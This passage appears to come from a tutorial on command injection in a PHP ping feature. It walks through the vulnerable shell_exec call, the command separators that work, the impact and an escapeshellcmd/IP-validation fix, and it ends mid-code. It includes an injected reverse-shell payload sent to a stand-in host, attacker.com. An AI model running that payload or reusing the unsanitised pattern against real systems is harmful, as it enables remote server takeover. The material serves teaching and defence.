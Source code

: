 3. Reverse Shell Attempt:
   - Enter a payload to establish a reverse shell:
     ```
     127.0.0.1; bash -i >& /dev/tcp/attacker.com/4444 0>&1
     ```
   - This attempts to create a reverse shell connection

## Vulnerability Analysis
The vulnerability exists because:
1. User input is directly concatenated into shell commands:
   ```php
   $cmd = shell_exec( 'ping  ' . $target );
   ```

2. No input validation or sanitization is performed
3. The application uses shell_exec() which executes commands through the shell
4. Multiple command separators can be used to inject additional commands:
   - Semicolon (;)
   - Double ampersand (&&)
   - Pipe (|)
   - Newline (\n)

## Impact
- Arbitrary command execution on the server
- Potential for:
  - System compromise
  - Data exfiltration
  - File system access
  - Network reconnaissance
  - Reverse shell establishment
  - Complete server takeover

## Mitigation Strategy

### 1. Easy Fix - Using escapeshellcmd()
```php
function securePing($target) {
    // Sanitize the input
    $target = escapeshellcmd($target);
    
    // Validate IP address format
    if (!filter_var($target, FILTER_VALIDATE_IP)) {
        return "Invalid IP address";
    }
    
    // Execute ping command safely
    if (stristr(php_uname('s'), 'Windows NT')) {
        $cmd = shell_exec('ping ' . $target);
    } else {
        $cmd = shell_exec('ping -c 3 ' . $target);
    }
    
    return $cmd;
}

// Usage
if (isset($_REQUEST['target'])) {
    $target = $_REQUEST['target'];
    if ($target) {
        $result = securePing($target);
        echo '<pre>' . cleanChars($result) . '</pre>';
    }
```